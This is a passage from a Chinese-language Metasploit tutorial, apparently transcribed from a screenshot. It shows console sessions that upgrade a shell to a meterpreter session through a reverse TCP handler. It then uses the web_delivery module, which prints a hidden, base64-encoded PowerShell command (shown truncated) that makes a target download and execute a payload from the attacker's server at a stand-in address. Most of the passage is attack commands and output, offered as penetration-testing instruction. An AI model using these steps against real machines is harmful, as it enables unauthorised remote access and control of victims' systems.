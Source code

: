 ```console
meterpreter >
```

使用 `sessions -u <id>` 可以快捷的从 shell 会话派生一个新的 meterpreter 会话：

```console
msf6 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on atk_vps_ip:4433
[*] Sending stage (1017704 bytes) to rhost_ip
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

meterpreter >
```

### Web Delivery

web_delivery 模块会在本地开一个 web 服务，并返回一条命令，在目标机器上执行该命令后，目标机就会从攻击机的 web 服务下载并执行 payload：

```console
msf6 > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Python
    1   PHP
    2   PSH
    3   Regsvr32
    4   pubprn
    5   SyncAppvPublishingServer
    6   PSH (Binary)
    7   Linux
    8   Mac OS X


msf6 exploit(multi/script/web_delivery) > set target 2
target => 2
msf6 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/script/web_delivery) > set rhost <target_ip>
rhost => <target_ip>
msf6 exploit(multi/script/web_delivery) > set srvport <atk_port>
srvport => <atk_port>
msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) >
[*] Using URL: http://atk_ip:8080/H7qVGtWny9jm
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQB......kAKQA7AA==

msf6 exploit(multi/script/web_delivery) > jobs

```